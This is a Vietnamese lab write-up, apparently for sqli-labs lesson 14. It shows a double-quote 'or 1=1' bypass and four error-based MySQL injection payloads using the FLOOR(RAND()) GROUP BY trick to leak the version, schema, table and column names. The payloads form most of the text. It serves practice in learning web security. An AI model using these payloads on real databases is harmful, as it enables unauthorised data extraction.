






# Những việc làm được với lesson-14
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-14



Giống với những bài trước thì ở bài này chúng ta đi tìm cấu trúc của bài này bằng cách thử các ký tự và cho nó luôn đúng. Cấu trúc  của bài này là: 

```
" or 1=1 -- 
```



Trong khi tìm kiếm tôi còn phát hiện ra ở bài này nó sẽ báo về cấu trúc truy vấn sai về. Chính vì thế mà ta có thể lợi dụng điều này để có thể tìm hiểu về cấu trúc DB của chúng. Thì giống như cách sử dụng những bài báo lỗi trước đây thì ta có thể dùng cấu trúc sau để truy vấn như sau 

1. Kiểm tra version của DB 

```
"  and (SELECT 0 FROM (SELECT count(*), CONCAT((@@version), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- 
```



2. show tên của từng table trong DB 

```
"  and (SELECT 0 FROM (SELECT count(*), CONCAT((SELECT table_name from information_schema.tables where table_schema='security' limit 0,1
), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- 
```



3. show tên của từng DB một 

```
"  and (SELECT 0 FROM (SELECT count(*), CONCAT((select SCHEMA_NAME from information_schema.schemata limit 1,1
), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- 
```



4. Hiển thị tên cột trong một bảng 

```
"  and (SELECT 0 FROM (SELECT count(*), CONCAT((SELECT COLUMN_NAME FROM information_schema.columns WHERE table_schema='security' AND table_name='users' limit 0,1
), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- 
```



Tương tự như thế chúng ta có thể thấy được rất nhiều thông tin trong DB bằng cách này và sử dụng câu truy vấn giống như các bài đầu tiên tôi đã làm kỹ 